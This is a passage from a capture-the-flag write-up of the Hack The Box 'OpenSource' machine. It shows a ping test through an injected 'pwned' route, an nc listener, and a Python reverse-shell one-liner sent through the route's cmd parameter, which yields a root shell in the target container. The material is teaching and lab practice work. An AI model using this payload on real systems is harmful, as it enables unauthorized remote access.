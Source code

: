![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/OpenSource/images/a11.png)

- Go to our newly created route:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/OpenSource/images/a12.png)

**You'll see an `TypeError`, but don't freak out! We can test is it working by pinging ourself:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/OpenSource/images/a13.png)

```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:22:05.146078 IP 10.10.11.164 > 10.10.14.41: ICMP echo request, id 6379, seq 0, length 64
09:22:05.146155 IP 10.10.14.41 > 10.10.11.164: ICMP echo reply, id 6379, seq 0, length 64
09:22:06.146215 IP 10.10.11.164 > 10.10.14.41: ICMP echo request, id 6379, seq 1, length 64
09:22:06.146232 IP 10.10.14.41 > 10.10.11.164: ICMP echo reply, id 6379, seq 1, length 64
09:22:07.147187 IP 10.10.11.164 > 10.10.14.41: ICMP echo request, id 6379, seq 2, length 64
09:22:07.147202 IP 10.10.14.41 > 10.10.11.164: ICMP echo reply, id 6379, seq 2, length 64
09:22:08.146987 IP 10.10.11.164 > 10.10.14.41: ICMP echo request, id 6379, seq 3, length 64
09:22:08.147004 IP 10.10.14.41 > 10.10.11.164: ICMP echo reply, id 6379, seq 3, length 64
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel
```

**We indeed received 4 ICMP echo reply!**

- Get a python reverse shell:

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nc -lnvp 443
listening on [any] 443 ...
```

**Python reverse shell payload: (Generated from https://www.revshells.com/)**
```py
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.41",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'
``` 

**Paste the payload in `pwned` route's `cmd` GET parameter:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/OpenSource/images/a14.png)

**Reverse shell connection:**
```
[...]
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.164] 48752
/app # whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
9e38ef79cc9b
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
